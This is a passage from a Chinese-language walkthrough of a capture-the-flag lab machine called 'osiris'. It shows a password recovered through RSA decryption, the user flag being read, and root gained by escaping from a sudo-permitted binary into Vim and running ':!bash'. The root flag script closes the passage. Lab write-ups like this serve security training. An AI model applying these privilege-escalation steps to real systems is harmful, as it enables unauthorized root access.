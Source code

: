 通过`publickey.pub、secret.enc`两个文件`RSA解密`后获得`tomu`的密码为`sh1m0mur4Bl4ckh4t`

##### 拿到`user.txt`

```shell
tomu@osiris:~$ id
uid=1001(tomu) gid=1001(tomu) grupos=1001(tomu)
tomu@osiris:~$ cd
tomu@osiris:~$ ls
nokitel.md  nokitel.png  user.txt
tomu@osiris:~$ cat user.txt
612701a03669485d94bc687449fdab39
```



### 7.获得`root`权限

`sudo -l`可以root权限执行`/opt/Contempt/Contempt`

```shell
tomu@osiris:~$ sudo -l
Matching Defaults entries for tomu on osiris:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tomu may run the following commands on osiris:
    (root) /opt/Contempt/Contempt
```

运行`Contempt`选,择第二个选项进入`VIM`
![image-20250809144805725](https://gitee.com/shui666/images/raw/master/images/image-20250809144805725.png)

再输入`:!bash`即可获得`root`权限

![image-20250809144746849](https://gitee.com/shui666/images/raw/master/images/image-20250809144746849.png)



##### 拿到`root.txt`

```shell
root@osiris:/home/tomu# id
uid=0(root) gid=0(root) grupos=0(root)
root@osiris:/home/tomu# cd
root@osiris:~# ls
root.sh
root@osiris:~# cat root.sh
#!/bin/sh

clear

greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"

printf "\n${greenColour}███████╗██████╗ ███████╗███████╗    ███╗   ███╗██╗████████╗███╗   ██╗██╗ ██████╗██╗  ██╗"
printf "\n${greenColour}██╔════╝██╔══██╗██╔════╝██╔════╝    ████╗ ████║██║╚══██╔══╝████╗  ██║██║██╔════╝██║ ██╔╝"
printf "\n${greenColour}█████╗  ██████╔╝█████╗  █████╗      ██╔████╔██║██║   ██║   ██╔██╗ ██║██║██║     █████╔╝ "
printf "\n${greenColour}██╔══╝  ██╔══██╗██╔══╝  ██╔══╝      ██║╚██╔╝██║██║   ██║   ██║╚██╗██║██║██║     ██╔═██╗ "
printf "\n${greenColour}██║     ██║  ██║███████╗███████╗    ██║ ╚═╝ ██║██║   ██║   ██║ ╚████║██║╚██████╗██║  ██╗"
printf "\n${greenColour}╚═╝     ╚═╝  ╚═╝╚══════╝╚══════╝    ╚═╝     ╚═╝╚═╝   ╚═╝   ╚═╝  ╚═══╝╚═╝ ╚═════╝╚═╝  ╚═╝\n${endColour}"
printf "\t\nflag --> 1e271c5ce97e76ae8417a95c74085fba \n"
```
